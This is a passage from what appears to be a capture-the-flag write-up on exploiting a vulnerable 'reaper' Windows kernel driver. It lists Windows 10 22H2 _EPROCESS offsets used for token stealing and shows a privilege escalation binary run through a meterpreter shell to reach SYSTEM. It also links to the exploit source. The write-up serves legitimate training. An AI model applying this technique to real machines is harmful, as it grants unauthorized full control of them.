 Rock on! I had successfully exploited the **reaper** driver. It was now time to check the target operating system version and make tweaks to the structure offsets:

```
Host Name:                 REAPER
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.19045 N/A Build 19045
```

This version is Windows 10 22H2. I used the Vergilius Project to examine the `_EPROCESS` structure.

[Vergilius Project]: https://www.vergiliusproject.com/kernels/x64/windows-10/22h2	"22H2 (2022 Update, Vibranium R5)"

Luckily the offsets were the same on the target as they were for my lab:

```c
#define UNIQUE_PROCESS_ID_OFFSET 0x440
#define ACTIVE_PROCESS_LINKS_OFFSET 0x448
#define TOKEN_OFFSET 0x4b8
```

# End Game

I uploaded the privilege escalation binary, using a meterpreter shell and ran it in a command prompt:

```
C:\Users\keysvc>ReaperPrivEsc.exe
ReaperPrivEsc.exe
Microsoft Windows [Version 10.0.19045.3208]
(c) Microsoft Corporation. All rights reserved.

C:\Users\keysvc>whoami
whoami
nt authority\system

C:\Users\keysvc>hostname
hostname
reaper
```

I grabbed the **root.txt** file and submit it to discord:

<img width="921" alt="image" src="https://github.com/user-attachments/assets/470ad8f1-6fad-4587-814c-8c644778093c">

[Home](https://plackyhacker.github.io)


[RP++]: https://github.com/0vercl0k/rp	"A fast ROP gadget finder"
[Notepad++]: https://notepad-plus-plus.org/downloads/	"Downloads"
[Plackyhacker]: https://github.com/plackyhacker/misc-scripts/blob/main/awe-prep/reaper-priv-esc.c	"Reaper Driver Priv Esc Code"